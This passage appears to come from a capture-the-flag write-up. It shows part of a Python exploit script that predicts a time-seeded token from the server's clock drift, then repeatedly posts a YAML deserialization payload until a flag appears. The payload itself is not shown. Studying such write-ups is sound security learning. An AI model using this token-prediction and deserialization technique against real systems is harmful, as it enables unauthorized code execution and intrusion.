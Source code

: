 ```python
                      "Origin": BASE, "Referer": GET})

    if args.proxy:
        s.proxies = {"http": args.proxy, "https": args.proxy}
        s.verify = False  # Ignore burp cert errors

    # Get server time from date response header and calculate the timedrift
    drift = server_sec(s) - int(time.time())
    print(f"[+] drift (server-client): {drift:+d} s")

    offset = -1  # Start at -1 seconds, loop until MAX_TRIES (default=5)
    for attempt in range(1, MAX_TRIES + 1):
        # Generate seed and convert to token
        seed = int(time.time()) + drift + offset
        token = token_for(seed)
        print(f"[*] try {attempt:02d}: seed {seed}, token {token}")

        # Send our [hopefully valid] token and deserialization payload
        r = s.post(
            POST,
            data=up.urlencode({"yaml": YAML, "token": token}),
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            timeout=5,
        )

        # Did we get the timing wrong?
        if "invalid token" not in r.text.lower():
            # If not, did we find a flag?
            if m := FLAG_RE.search(r.text):
                print(f"\n[✓] FLAG → {m.group(0)}")
            else:
                print("\n[?] token accepted but flag not in response ↓")
                print(r.text)
                exit()
            return

        offset += 1
        time.sleep(3)  # Delay between requests due to rate limit

    print(f"[×] gave up after {MAX_TRIES} tries")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        pass
```
{% endcode %}

We run the exploit script and receive the flag 😎
